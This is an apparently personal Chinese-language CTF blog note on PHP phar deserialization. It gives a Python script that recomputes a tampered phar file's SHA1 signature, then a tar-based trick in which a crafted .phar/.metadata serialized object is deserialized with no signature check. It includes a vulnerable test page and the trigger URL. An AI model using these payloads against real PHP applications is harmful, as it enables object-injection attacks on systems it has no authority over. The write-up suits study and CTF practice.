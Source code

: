 ```yaml
---
title: "Phar 签名的修复与绕过"
date: 2022-08-20T20:31:36+08:00
lastmod: 2022-08-20T20:31:36+08:00
draft: false
author: "X1r0z"

tags: ['php', 'ctf']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


phar 反序列化有时候会和 `__wakeup` 的绕过 (CVE-2016-7124) 结合在一起, 直接修改 phar 原始文件的话会报错

原因是 phar 文件包含签名, 解析时会检测文件是否被篡改

做题碰到很多次了, 在这里记录一下

<!--more-->

## 修复签名

phar 签名的相关信息

[https://www.php.net/manual/zh/phar.fileformat.signature.php](https://www.php.net/manual/zh/phar.fileformat.signature.php)

![20220820200827](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820200827.png)

签名支持 MD5, SHA1, SHA256, SHA512, OpenSSL 算法, 默认是 SHA1

其中末尾的4个字节是固定的, 表示该文件存在签名

倒数第8~4个字节表示文件使用的签名算法

倒数8个字节往前就是签名的二进制值, 对文件开头到声明签名部分以前的内容进行计算, 长度视算法类型而定

以 SHA1 为例

在修改了 phar 数据后, 我们需要更改的就是这部分 (20字节长度) 的内容

![20220820201619](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820201619.png)

Python 脚本

```python
import hashlib

with open('phar.phar', 'rb') as f:
    content = f.read()

text = content[:-28]
end = content[-8:]
sig = hashlib.sha1(text).digest()

with open('phar_new.phar', 'wb+') as f:
    f.write(text + sig + end)

```

注意计算 SHA1 的时候要使用 `.digest()` 而不是 `.hexdigest()`, 因为文件本身保存的签名是二进制格式的

其它签名算法同理, 就是切片的长度不一样 (不过一般也不怎么用到)

## 使用 tar 绕过签名

[https://www.anquanke.com/post/id/240007](https://www.anquanke.com/post/id/240007)

在看这篇文章的时候发现 phar 协议对 tar 的处理跟 gzip bzip2 这些不太一样

对 gzip bzip2 处理时, PHP 会将其解压缩, 然后解析里面的 phar 文件

而对 tar 处理时, PHP 会检测压缩包中是否存在 `.phar/.metadata`, 存在的话就会将 .metadata 里的内容**直接进行反序列化**

测试代码

```php
<?php

class A{
    public $text = 'test';
    function __destruct(){
        echo $this->text;
    }

    function __wakeup(){
        $this->text = 'fail';
    }
}

file_get_contents($_GET['a']);

?>
```

本地创建 .phar 文件夹和 .metadata 文件

```bash
exp10it@LAPTOP-TBAF1QQG:~/WWW/.phar$ ls -a
.metadata
exp10it@LAPTOP-TBAF1QQG:~/WWW/.phar$ cat .metadata
O:1:"A":2:{s:4:"text";s:7:"success";}
```

tar 压缩, **必须是 Linux 环境**

```bash
tar -cf phar.tar .phar/
```

访问 `index.php?a=phar://phar.tar`

![20220820204322](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820204322.png)

这种方法直接扔掉了 phar 的签名, 修改数据时根本不用担心签名的问题, 也就不存在 "修复签名" 的说法